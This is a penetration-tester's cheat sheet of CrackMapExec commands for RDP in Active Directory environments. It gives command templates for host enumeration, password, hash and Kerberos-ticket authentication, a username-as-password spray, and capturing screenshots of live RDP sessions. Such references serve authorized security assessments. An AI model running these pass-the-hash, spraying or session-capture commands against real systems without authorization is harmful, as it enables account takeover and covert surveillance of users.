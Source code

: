 # cme (RDP)

% cme, crackmapexec, Active Directory, nxc, netexec, rdp

## Enumerate RDP reachable hosts
#assessment/AD #attack_type/Enumeration #port/3389 #protocol/rdp #access/Anonymous 

Enumerate network hosts that can be reached via RDP.

```bash
cme rdp <ip>
```

## Domain auth
#assessment/AD #attack_type/Authentication #port/3389 #protocol/rdp #access/Domain_user 

Authenticate via a domain account on the remote target.

```bash
cme rdp <ip> -u <user> -p <password> -d <domain>
```

## Domain auth with hash
#assessment/AD #attack_type/Authentication #port/3389 #protocol/rdp #access/Domain_user 

```bash
cme rdp <ip> -u <user> -H <hash> -d <domain>
```

## Local auth
#assessment/AD #attack_type/Authentication #port/3389 #protocol/rdp #access/Local_user

Authenticate via a local account on the remote target.

```bash
cme rdp <ip> -u <user> -p <password> --local-auth
```

## Local auth with hash
#assessment/AD #attack_type/Authentication #port/3389 #protocol/rdp #access/Local_user

Authenticate via a local account using the hash on the remote target.

```bash
cme rdp <ip> -u <user> -H <hash> --local-auth
```

## Kerberos auth
#assessment/AD #attack_type/Authentication #port/3389 #protocol/rdp #access/Domain_user 

Authenticate via Kerberos on the remote target.

```bash
cme rdp <ip> -u <user> -p <password> -k
```

## Kerberos TGT auth
#assessment/AD #attack_type/Authentication #port/3389 #protocol/rdp #access/Domain_user 

Authenticate via a Kerberos TGT on the remote target.

Previously import ticket : 
export KRB5CCNAME=ticket.ccache

```bash
cme rdp <ip> -u <user> -k --use-kcache
```

## Password spray (username=password)
#assessment/AD #attack_type/Bruteforce #port/3389 #protocol/rdp #access/Anonymous 

Password spray to find domain accounts with weak passwords.

```bash
cme rdp <ip> -u <users.list> -p <users.list> --no-bruteforce --continue-on-success
```

## Screenshot
#assessment/AD #attack_type/Other #port/3389 #protocol/rdp #access/Domain_user

Take a screenshot of the ongoing RDP session.

```bash
cme rdp <ip> -u <user> -p <password> --screenshot --screentime <second>
```

= ip: 192.168.1.0/24
= dc-ip: $DC_IP
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN
